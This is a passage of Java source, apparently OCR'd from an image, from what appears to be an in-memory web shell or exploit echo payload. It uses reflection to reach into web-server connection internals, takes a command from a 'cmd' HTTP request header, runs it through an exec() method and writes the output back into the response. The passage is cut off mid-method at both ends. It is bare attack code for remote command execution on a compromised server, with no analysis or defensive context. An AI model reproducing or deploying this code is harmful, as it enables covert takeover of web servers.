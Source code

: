```java
                        method = value.getClass().getMethod("getPrintWriter", new Class[]{String.class});
                        java.io.PrintWriter printWriter = (java.io.PrintWriter)method.invoke(value, new Object[]{"utf-8"});
                        printWriter.println(result);
                        printWriter.flush();
                        break thread;
                    }else if(value.getClass().getName().endsWith("HttpConnection")){
                        Method method = value.getClass().getDeclaredMethod("getHttpChannel", null);
                        Object httpChannel = method.invoke(value, null);
                        method = httpChannel.getClass().getMethod("getRequest", null);
                        value = method.invoke(httpChannel, null);
                        method = value.getClass().getMethod("getHeader", new Class[]{String.class});
                        String cmd = (String)method.invoke(value, new Object[]{"cmd"});
                        String result = "\n"+exec(cmd);
                        method = httpChannel.getClass().getMethod("getResponse", null);
                        value = method.invoke(httpChannel, null);
                        method = value.getClass().getMethod("getWriter", null);
                        java.io.PrintWriter printWriter = (java.io.PrintWriter)method.invoke(value, null);
                        printWriter.println(result);
                        printWriter.flush();
                        break thread;
                    }else if (value.getClass().getName().endsWith("Channel")){
                        Field underlyingOutputField = value.getClass().getDeclaredField("underlyingOutput");
                        underlyingOutputField.setAccessible(true);
                        Object underlyingOutput = underlyingOutputField.get(value);
                        Object httpConnection;
                        try{
                            Field _channelField = underlyingOutput.getClass().getDeclaredField("_channel");
                            _channelField.setAccessible(true);
                            httpConnection = _channelField.get(underlyingOutput);
                        }catch (Exception e){
                            Field connectionField = underlyingOutput.getClass().getDeclaredField("this$0");
                            connectionField.setAccessible(true);
                            httpConnection = connectionField.get(underlyingOutput);
                        }
                        Object request = httpConnection.getClass().getMethod("getRequest").invoke(httpConnection);
                        Object response = httpConnection.getClass().getMethod("getResponse").invoke(httpConnection);
                        String cmd = (String) request.getClass().getMethod("getHeader", String.class).invoke(request, "cmd");
                        OutputStream outputStream = (OutputStream)response.getClass().getMethod("getOutputStream").invoke(response);
                        String result = "\n"+exec(cmd);
                        outputStream.write(result.getBytes());
                        outputStream.flush();
                        break thread;
                    }
                }
            }catch (Exception e){}
        }
    }

    public String exec(String cmd){
        if (cmd != null && !"".equals(cmd)) {
            String os = System.getProperty("os.name").toLowerCase();
            cmd = cmd.trim();
```